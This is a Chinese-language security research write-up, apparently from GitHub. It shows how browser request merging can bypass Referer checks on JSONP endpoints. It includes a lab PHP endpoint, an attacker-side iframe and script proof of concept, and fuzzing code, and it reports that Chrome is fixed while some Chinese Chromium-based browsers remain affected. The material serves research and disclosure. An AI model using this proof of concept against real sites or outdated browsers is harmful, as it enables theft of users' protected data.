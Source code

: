 # 使用request merging bypass referer(jsonp) 检测

## 1. 关于request merging和其会产生的问题

request merging : 浏览器会把多次相同的请求(并非所有请求)合并成一次，以加快资源加载速度。

e.g. 
```html
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/1"></script>
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/1"></script>
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/1"></script>
```
只会请求并加载一次"http://0.0.0.0:8888/jsonp/1"资源。

*曾经有研究指出，这种请求合并想象在iframe里也存在*，那么浏览器的这种特性就可以用来bypass部分程序的referer的判断，如jsonp的防御机制。

## 2. 环境和POC

绕过referer检测，攻击者能否拿到进行referer保护的用户信息？

攻击者服务器： http://example.com:8081
目标服务器： http://example.com:8082
referer检测： referer是否以“http://example.com:8082”开头
目标： 攻击者拿到属于用户的 "security content"

### 环境：

/jsonp.php
```php
<?php

function startsWith($url, $domain) {
     $length = strlen($domain);
     return (substr($url, 0, $length) === $domain);
}

$referrer = @$_SERVER['HTTP_REFERER'];

if (startsWith($referrer, "http://example.com:8082")) {
    $js_code = 'function jquery() { return "security content";}';
    echo $js_code;
} else {
    $js_code = 'function jquery() { return "nothing";}';
    echo $js_code;
}

```

/index.html
```html
<!DOCTYPE html>
<html>
<head>
    <title>index in http://0.0.0.0</title>
</head>
<body>
<script type="text/javascript" src="http://example.com:8082/jsonp.php"></script>
<script type="text/javascript">
    document.write(location.href + ":" +jquery());
</script>

</body>
</html>
```

### poc
http://example.com:8081/poc.html
```
<iframe src="http://example.com:8082/"></iframe>
<script type="text/javascript" src="http://example.com:8082/jsonp.php"></script>
<script type="text/javascript">
    document.write(jquery());
</script>
```

正常情况这个poc是没有办法获得jsonp里面的信息的，因为不能bypass`startsWith($referrer, "http://example.com:8082")`的检测。
但是在request merging的情况下，浏览器因为script资源的url是相同的，所以它只会请求`http://example.com:8082/jsonp.php`一次，则我们可以在`example.com:8081`里拿到只有`example.com:8082`可以拿到的资源。

## 第一次实验

访问：http://example.com:8081/poc.html

![](http://ww1.sinaimg.cn/large/005y7Ba5gy1fj4612z2h6j310q0fc3zw.jpg)

失败了...
之后我开始不正经了...

## fuzz response size in script src

难不成是response请求包大小的问题？请求太小的情况下，没有必要合并请求，所以浏览器直接不合并了？fuzz一下看看多大的请求会被合并。

代码：
flask:
```python
from flask import Response, Flask, stream_with_context

app = Flask(__name__)

@app.route('/jsonp/<int:size>')
def jsonp(size):
    def _genrate_file(size):
        yield "1"
        yield "\0" * (size-1)
    return Response(stream_with_context(_genrate_file(size)))

if __name__ == "__main__":
    app.run(debug=True, threaded=True, port=8888, host="0.0.0.0")
```
html:
```
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>fuzz size of response about request merging</title>
</head>
<body>
<script type="text/javascript">
(function(){
    for (var size = 3; size <= 100; size++) {
        var iframe = document.createElement('iframe');
        var html = '';
        for (var i = 3; i >= 0; i--) {
            html = html + 
            '<script src=http://0.0.0.0:8888/jsonp/'
            + size
            + '></'
            + 'script>';
        }
        iframe.src = 'data:text/html;charset=utf-8,' + encodeURI(html);
        document.body.appendChild(iframe);
    }
})();
</script>
</body>
</html>
```
实验结果，所有请求都合并了。我连1024都没有乘。很小很小的请求都会合并。

## iframe并不会merging??

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>iframe request merging</title>

<!-- test1 -->
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/102400"></script>
</head>
<body>
<script type="text/javascript">
(function(){
    for (var size = 1; size <= 10; size++) {
        var iframe = document.createElement('iframe');
        html = '<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/102400"></s' + 'cript>'
        iframe.src = 'data:text/html;charset=utf-8,' + encodeURI(html);
        document.body.appendChild(iframe);
    }
})();
</script>

<!-- test2 -->
<script src="https://cdn.bootcss.com/jquery/3.2.1/jquery.js"></script>
<iframe src="data:text/html;charset=utf-8,%3Cscript%20src%3D%22https%3A%2F%2Fcdn.bootcss.com%2Fjquery%2F3.2.1%2Fjquery.js%22%3E%3C%2Fscript%3E"></iframe>

<!-- test3 -->
<iframe src="./many_out_script.html"></iframe>

</body>
</html>
```

测试了三次。果然都没有合并请求...

绝招！问大佬： https://twitter.com/nearg1e/status/903297400797663232

@filedescriptor 是twitter上专注于浏览器安全的安全研究员，之前的“iframe也会发生 request merging”的结论也是他得出来的。

请教结果： 5月12日的时候验证chrome已经修复了该问题。好吧居然fix了。

## 大部分的国产浏览器依然受影响。

之前windows上对多款浏览器进行过UXSS的测试和特权域API的分析，所以windows环境里还有多款国产浏览器。我们知道大部分国产浏览器是基于chromium的，而且版本更新并不会像chrome那么勤快，特别是内核的更新一直是相对比较缓慢的。很多Nday都可以用(可是src不收呀！)。

test in 360se 8.2.1.340

![](http://ww1.sinaimg.cn/large/005y7Ba5gy1fj46nc4gr1j31d90nowgp.jpg)

poc修改为:
```html
<body>
    <iframe src="http://example.com:8082/"></iframe>
    <iframe src="http://example.com:8081/"></iframe>
</body>
```

这样保证了，攻击者域中的请求后执行。
思路验证成功。

## other

现在很多浏览器漏洞(bug)都是和新特性(feature)相关的，或许request merging还有别的用处？

## link

https://twitter.com/nearg1e/status/903297400797663232
Exploiting the unexploitable with lesser known browser tricks from filedescriptor




